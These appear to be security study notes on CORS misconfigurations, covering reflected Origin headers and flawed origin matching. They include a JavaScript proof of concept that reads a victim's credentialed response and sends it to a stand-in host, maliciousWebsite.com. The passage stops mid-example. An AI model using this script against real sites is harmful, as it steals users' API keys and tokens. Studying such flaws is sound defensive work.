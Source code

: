 # Cross-Origin Resource Sharing (CORS)
## Vulnerabilities Arising from CORS configuration issues
- Many modern websites use CORS to allow access from subdomains and trusted third parties.
- The implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, resulting in exploitable vulnerabilities.

### Server-generated ACAO header from client-specified Origin header.
- Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk bearing functionality.
- One way to effectively allow access is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed.
- Consider an application that receives the following request:
```
GET /sensitiveVictimData HTTP/1.1
Host: vulnerableWebsite.com
Origin: https://maliciousWebsite.com
Cookie: sessionId=...
```
It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://maliciousWebsite.com
Access-Control-Allow-Credentials: true
...
```
- These headers state that access is allowed from the requesting domain (`maliciousWebsite.com`) and that the cross-domain requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.
- If the response contains any sensitive information such as an `API key` or `CSRF token`, one can retrieve this by placing the following script on the website:
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerableWebsite.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener(){
location='//maliciousWebsite.com/log?key='+this.responseText;
};
```
### Error parsing Origin headers
- Some applications that support access from multiple origins do so by using whitelist of allowed origins.
- When CORS request is received, the supplied origin is compared to the whitelist and is reflected in the `Access-Control-Allow-Origin` header so that access is granted.
- Some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes or using regular expressions.
- Any mistakes in the implementation can lead to access being granted to unintended external domains.
- Supposing an application grants access to all domains ending in:
```
normalWebsite.com
```
- An attacker might be able to gain access by registering the domain:
```
hackersnormalWebsite.com
```
- Alternatively, suppose an application grants access to all domains beginning with:
```
```